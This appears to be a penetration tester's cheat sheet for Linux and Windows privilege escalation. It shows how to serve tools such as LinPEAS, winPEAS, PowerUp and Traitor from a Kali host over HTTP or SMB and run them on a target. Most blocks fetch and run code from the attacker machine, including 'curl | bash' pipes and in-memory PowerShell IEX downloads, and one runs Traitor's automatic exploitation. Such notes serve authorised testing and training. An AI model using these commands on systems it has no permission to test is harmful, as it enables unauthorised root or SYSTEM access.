 # Privilege Escalation

## Linux

- HTTP

Host the file
```
cd /opt/linux_privesc
sudo python -m http.server 80
```


### LinPEAS

```
curl http://<Kali IP>/linpeas.sh | bash
```
or
```
wget http://<Kali IP>/linpeas.sh
bash linpeas.sh
```

### LinEnum.sh

```
curl http://<Kali IP>/LinEnum.sh | bash
```
or
```
wget http://<Kali IP>/LinEnum.sh
bash LinEnum.sh
```

### linuxprivchecker.py

```
wget http://<Kali IP>/linuxprivchecker.py
python linuxprivchecker.py
```

### Trator

```
wget http://<Kali IP>/traitor-amd64
chmod +x traitor-amd64
./traitor-amd64 -a
```


## Windows

### winPEAS

- HTTP

Host the file
```
cd /usr/share/windows-resources/binaries
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/winPEASany.exe' -OutFile <Path>\winPEASany.exe
<Path>\winPEASany.exe
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/winPEASany.exe')
```

- SMB

Host the file
```
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\winPEASany.exe .
winPEASany.exe
```
or
```
xcopy \\<Kali IP>\share\winPEASany.exe C:\Temp\winPEAS\

cd C:\Temp\winPEAS
C:\Temp\winPEAS\winPEASany.exe
```


### PowerUp

- HTTP

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
sudo python -m http.server 80
```

Copy on Target and execute
```
Invoke-WebRequest -Uri 'http://<Kali IP>/PowerUp.ps1' -OutFile <Path>\PowerUp.ps1
Import-Module <Path>\PowerUp.ps1
Invoke-AllChecks
```
Or execute direct on memory
```
IEX(New-Object Net.WebClient).downloadstring('http://<Kali IP>/PowerUp.ps1')
Invoke-AllChecks
```

- SMB

Host the file
```
cd /usr/share/windows-resources/powersploit/Privesc/
impacket-smbserver share $(pwd) -smb2support
```

```
net use \\<Kali IP>\share
copy \\<Kali IP>\share\PowerUp.ps1 .
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
or
```
xcopy \\<Kali IP>\share\PowerUp.ps1 C:\Temp\PowerUp\

Import-Module C:\Temp\PowerUp\PowerUp.ps1
Invoke-AllChecks
```



# Links

- [Basic Linux privilege escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
- [Linux - Privilege Escalation](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [LinEnum.sh](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)
- [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker)
- [Trator](https://github.com/liamg/traitor)
- [GTFOBins](https://gtfobins.github.io/)